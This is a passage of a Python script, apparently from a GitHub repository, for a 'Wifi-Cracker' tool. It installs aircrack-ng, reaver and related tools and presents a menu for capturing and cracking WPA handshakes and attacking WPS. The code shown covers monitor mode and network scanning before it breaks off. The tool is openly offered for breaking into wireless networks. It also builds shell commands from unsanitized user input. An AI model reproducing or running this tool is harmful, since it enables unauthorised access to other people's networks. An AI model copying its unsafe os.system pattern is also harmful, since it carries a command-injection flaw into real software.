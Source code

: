 # Ethical_Hacking

# coding: utf-8
#!/usr/bin/env python
import os
import subprocess
from subprocess import check_call
print("\nInstalling Needed Tools")
print("\n")
cmd0 = os.system("apt-get install aircrack-ng crunch xterm wordlists reaver pixiewps bully xterm wifite")
cmd  = os.system("sleep 3 && clear")
def intro():
    cmd  = os.system("clear")
    print("""\033[1;32m
---------------------------------------------------------------------------------------
██╗    ██╗██╗███████╗██╗       ██████╗██████╗  █████╗  ██████╗██╗  ██╗███████╗██████╗ 
██║    ██║██║██╔════╝██║      ██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗
██║ █╗ ██║██║█████╗  ██║█████╗██║     ██████╔╝███████║██║     █████╔╝ █████╗  ██████╔╝
██║███╗██║██║██╔══╝  ██║╚════╝██║     ██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══╝  ██╔══██╗
╚███╔███╔╝██║██║     ██║      ╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝╚═╝     ╚═╝       ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                                        Coded By BlackHatHacker-Ankit
---------------------------------------------------------------------------------------                                                                     
(1)Start monitor mode       
(2)Stop monitor mode                        
(3)Scan Networks                            
(4)Getting Handshake(monitor mode needed)   
(5)Install Wireless tools                   
(6)Crack Handshake with rockyou.txt (Handshake needed)
(7)Crack Handshake with wordlist    (Handshake needed)
(8)Crack Handshake without wordlist (Handshake,essid needed)
(9)Create wordlist                                     
(10)WPS Networks attacks (Bssid,monitor mode needed)
(11)Scan for WPS Networks

(0)About Me
(00)Exit
-----------------------------------------------------------------------
""")
    print("\nEnter your choise here : !# ")
    var = int(input(""))
    if var == 1 :
        print("\nEnter the interface:(Default(wlan0/wlan1))")
        interface = input("")
        order = "airmon-ng start {} && airmon-ng check kill".format(interface)
        geny  = os.system(order)
        intro()
    elif var == 2 :
        print("\nEnter the interface:(Default(wlan0mon/wlan1mon))")
        interface = input("")
        order = "airmon-ng stop {} && service network-manager restart".format(interface)
        geny  = os.system(order)
        intro()
    elif var == 3 :
        print("\nEnter the interface:(Default >> (wlan0mon/wlan1mon))")
        interface = input("")
        order = "airodump-ng {} -M".format(interface)
        print("When Done Press CTRL+c")
        cmd = os.system("sleep 3")
        geny  = os.system(order)